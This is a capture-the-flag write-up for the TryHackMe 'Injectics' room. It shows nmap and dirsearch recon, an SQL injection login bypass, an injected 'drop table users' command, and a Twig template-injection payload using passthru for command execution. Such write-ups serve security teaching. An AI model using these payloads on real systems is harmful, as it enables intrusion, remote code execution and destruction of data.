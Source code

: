 # 🚀 TryHackMe: Injectics — Write-Up  
**Room URL:** [https://tryhackme.com/room/injectics](https://tryhackme.com/room/injectics)  
**Author:** *Irregular*  
**Date:** *14-06-2025*

---
## 📝 Overview  

> *Injectics is a room focused on exploiting injection vulnerabilities such as SQL Injection, SSTi,ORM  and others. The room provides hands-on practice with identifying and exploiting these issues to gain RCE or system access.*
>
> ## 🛠️ Tools Used  

- `nmap`
-  `dirsearch`
- `Burp Suite`
- `curl`
- `Web browser`

---
##RECON FINDINGS##

*Nmap*

```
nmap -A -T5 10.10.186.30
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-14 06:51 EDT
Nmap scan report for 10.10.186.30
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b7:21:88:c8:15:5f:7c:7c:be:50:00:9f:27:7a:06:7e (RSA)
|   256 3c:bf:29:b6:80:25:58:74:eb:32:d8:fb:05:53:25:98 (ECDSA)
|_  256 34:f5:76:85:2d:5a:5e:0d:27:c4:cc:10:a5:b4:5d:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Injectics Leaderboard
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT       ADDRESS
1   26.70 ms  10.17.0.1
2   ... 4
5   148.69 ms 10.10.186.30

```
*Dirsearch*
```
dirsearch -u 10.10.186.30

 _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Downloads/reports/_10.10.186.30/_25-06-14_06-53-40.txt

Target: http://10.10.186.30/

[06:53:40] Starting: 
[06:53:44] 301 -  309B  - /js  ->  http://10.10.186.30/js/                  
[06:53:50] 403 -  277B  - /.htaccess_orig                                   
[06:53:50] 403 -  277B  - /.htaccess.orig                                   
[06:53:50] 403 -  277B  - /.htaccess_extra                                  
[06:53:50] 403 -  277B  - /.htaccessBAK
[06:53:50] 403 -  277B  - /.ht_wsr.txt
[06:53:50] 403 -  277B  - /.htaccessOLD
[06:53:50] 403 -  277B  - /.htaccess_sc
[06:53:50] 403 -  277B  - /.htaccess.bak1
[06:53:50] 403 -  277B  - /.htaccess.sample
[06:53:50] 403 -  277B  - /.htaccessOLD2
[06:53:50] 403 -  277B  - /.htaccess.save                                   
[06:53:51] 403 -  277B  - /.htm                                             
[06:53:51] 403 -  277B  - /.htpasswd_test                                   
[06:53:51] 403 -  277B  - /.httr-oauth                                      
[06:53:51] 403 -  277B  - /.htpasswds                                       
[06:53:51] 403 -  277B  - /.html                                            
[06:53:55] 403 -  277B  - /.php                                             
[06:54:57] 200 -   48B  - /composer.json                                    
[06:54:57] 200 -    9KB - /composer.lock                                    
[06:55:03] 301 -  310B  - /css  ->  http://10.10.186.30/css/                
[06:55:04] 302 -    0B  - /dashboard.php  ->  dashboard.php                 
[06:55:22] 301 -  312B  - /flags  ->  http://10.10.186.30/flags/            
[06:55:38] 301 -  317B  - /javascript  ->  http://10.10.186.30/javascript/  
[06:55:39] 403 -  277B  - /js/                                              
[06:55:45] 200 -    1KB - /login.php                                        
[06:55:46] 302 -    0B  - /logout.php  ->  index.php                        
[06:55:47] 200 -    1KB - /mail.log                                         
[06:56:09] 301 -  317B  - /phpmyadmin  ->  http://10.10.186.30/phpmyadmin/  
[06:56:13] 200 -    3KB - /phpmyadmin/doc/html/index.html                   
[06:56:15] 200 -    3KB - /phpmyadmin/                                      
[06:56:15] 200 -    3KB - /phpmyadmin/index.php                             
[06:56:31] 403 -  277B  - /server-status/                                   
[06:56:31] 403 -  277B  - /server-status
[06:57:01] 403 -  277B  - /vendor/                                          
[06:57:02] 200 -    0B  - /vendor/composer/autoload_static.php              
[06:57:02] 200 -    0B  - /vendor/composer/autoload_files.php
[06:57:02] 200 -    0B  - /vendor/composer/autoload_classmap.php
[06:57:02] 200 -    0B  - /vendor/composer/autoload_psr4.php
[06:57:02] 200 -    1KB - /vendor/composer/LICENSE
[06:57:02] 200 -   12KB - /vendor/composer/installed.json
[06:57:02] 200 -    0B  - /vendor/autoload.php
[06:57:02] 200 -    0B  - /vendor/composer/ClassLoader.php
[06:57:02] 200 -    0B  - /vendor/composer/autoload_real.php
[06:57:02] 200 -    0B  - /vendor/composer/autoload_namespaces.php          
                                                                             
Task Completed
```
*Intresting Findings*
![image](https://github.com/user-attachments/assets/3a1829fb-1348-4180-bcbb-55557c9b93ee)

![image](https://github.com/user-attachments/assets/25ec408b-f65b-418d-a8c9-3f690cbb02ca)

**QUESTIONS FROM THE ROOM**
***Q1.What is the flag value after logging into the admin panel?***
for this first visited the login page and tried to intercept the request using burp suite community edition as i have the creditial already i just need to delete tha 'users' table from the database.
![burp](https://github.com/user-attachments/assets/4b049b91-d7ba-4dbd-91f8-a47abab018a4)

then, i sent the request to intruder and used the SQLi payload from `https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt`
![intrude](https://github.com/user-attachments/assets/87f756e5-f424-4b2a-8c11-158e4044b667)

![VirtualBox_kali-linux-2024 3-virtualbox-amd64_14_06_2025_17_28_03](https://github.com/user-attachments/assets/3c2707bd-d2f3-4745-8202-e8ac686963a9)

and from this i got the payload and refreshed the page and i got into it,also To get access to the admin panel for the challenge question, I need to delete the ‘users’ table. So I want to find somewhere to inject:
`drop table users -- -`
after refreshing 
 and  after logging out we use the admincredentials and _voila_
 ![VirtualBox_kali-linux-2024 3-virtualbox-amd64_14_06_2025_18_12_06](https://github.com/user-attachments/assets/b1215812-4205-4d57-8b90-abd6d115eb2d)

 ***What is the content of the hidden text file in the flags folder?***
 >for this we'll look for a SSTI on the page where the input can give us RCE or directly get the result
> ![image](https://github.com/user-attachments/assets/22a5195f-4690-4fdc-a46b-607c7bf298c4)
>![image](https://github.com/user-attachments/assets/4238b077-0755-4cc5-b98d-2c15713e6bd3)
now i'll try to get a RCE on this uing netcat as we know already that this page uses ***twig*** for the code of template injeacaation. i did some searching and foound i can use sort pass thru function.
>{{['id',""]|sort('passthru')}}
>![image](https://github.com/user-attachments/assets/6ac83e92-baa3-467a-9129-c7c1bde798b6)
and now after some chaining and iterations i got the flag
>![VirtualBox_kali-linux-2024 3-virtualbox-amd64_14_06_2025_17_28_03](https://github.com/user-attachments/assets/12047a7d-e6e7-486f-aa91-4278052bd70c)





